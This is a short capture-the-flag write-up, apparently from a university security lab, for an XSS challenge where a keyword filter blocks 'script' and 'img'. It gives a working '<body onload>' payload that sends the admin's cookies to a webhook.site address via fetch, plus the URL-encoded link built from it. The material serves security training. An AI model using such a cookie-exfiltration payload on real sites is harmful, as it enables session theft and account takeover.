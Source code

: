 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to XSS

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23252`, on the bug report feature

- Impact: What results of exploiting this vulnerability
  - Allows the user to run code through XSS, used to steal cookies

## Steps to reproduce

1. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23252`
2. In this version, the strings "script" and "img" cannot be searched
3. The link given on the bug report feature will be accessed by the admins
4. In order to get the flag, the admin must send their cookies to our `WebHook`
5. Searched for the following code on the search bar, in order to get the link to be pressed (changed script to `body onload`):

```html
 <body onload="url ='https://webhook.site/a3d25143-6e57-4354-b50c-c0c6fe1a3db9/?cookies=' + encodeURIComponent(document.cookie); fetch(url)";/> 
```

6. The link passed was the following:

`http://mustard.stt.rnl.tecnico.ulisboa.pt:23252/?search=%3Cbody+onload%3D%22url+%3D%27https%3A%2F%2Fwebhook.site%2Fa3d25143-6e57-4354-b50c-c0c6fe1a3db9%2F%3Fcookies%3D%27+%2B+encodeURIComponent%28document.cookie%29%3B+fetch%28url%29%22%3B%2F%3E+`
